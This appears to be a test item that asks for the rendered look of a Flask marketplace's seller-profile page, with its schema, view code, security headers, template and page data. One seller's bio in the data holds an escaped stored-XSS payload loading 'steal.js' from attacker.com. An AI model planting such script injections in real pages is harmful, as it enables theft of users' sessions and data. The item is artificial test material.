
/seller/2f4007f9-13d7-4423-9cc7-7bba6da17772, run on the app's committed database.
### tables this page shows
CREATE TABLE user (
                id TEXT PRIMARY KEY,
                username TEXT UNIQUE NOT NULL,
                password TEXT NOT NULL,
                bio TEXT
            , is_inactive INTEGER DEFAULT 0, points INTEGER DEFAULT 0);

### app.py (the view)
@app.route('/seller/<seller_id>')
def view_seller(seller_id):
    db = get_db()
    cursor = db.cursor()
    cursor.execute("SELECT * FROM user WHERE id = ?", (seller_id,))
    seller = cursor.fetchone()
    if not seller:
        flash('판매자를 찾을 수 없습니다.')
        return redirect(url_for('dashboard'))
    return render_template('view_seller.html', seller=seller)

### app.py (called while the page is built)
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.before_request
def check_session_timeout():
    last_active = session.get('last_active')
    if last_active:
        last_active = datetime.strptime(last_active, "%Y-%m-%d %H:%M:%S")
        if datetime.utcnow() - last_active > timedelta(minutes=60):
            session.clear()
            flash('세션이 만료되었습니다. 다시 로그인하세요.')
            return redirect(url_for('login'))
    session['last_active'] = datetime.utcnow().strftime("%Y-%m-%d %H:%M:%S")

@app.after_request
def apply_security_headers(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' https://cdnjs.cloudflare.com https://cdn.socket.io; "
        "style-src 'self' 'unsafe-inline'; "
        "object-src 'none';")
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains'
    return response

### templates/view_seller.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<h2>{{ seller.username }}의 프로필</h2>
<p>이름: {{ seller.username }}</p>
<p>이메일: {{ seller.email }}</p>
<p>소개: {{ seller.bio if seller.bio else '소개글이 없습니다.' }}</p>
{% if session['user_id'] != seller.id %}
    <a href="{{ url_for('chat_start', seller_id=seller.id) }}">채팅 시작</a>
{% endif %}
{% endblock %}

### templates/base.html (style rules this page uses)
body { background-color: #F7F7F7; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; margin: 0; padding: 0; color: #333; }
h1, h2, h3 { font-weight: 600; margin-bottom: 20px; }

### data on the page
user: username "aaaaaa", bio "안녕하세요! 잘 부탁드려요 &lt;script src=&quot;http://attacker.com/steal.js&quot;&gt;&lt;/script&gt;"
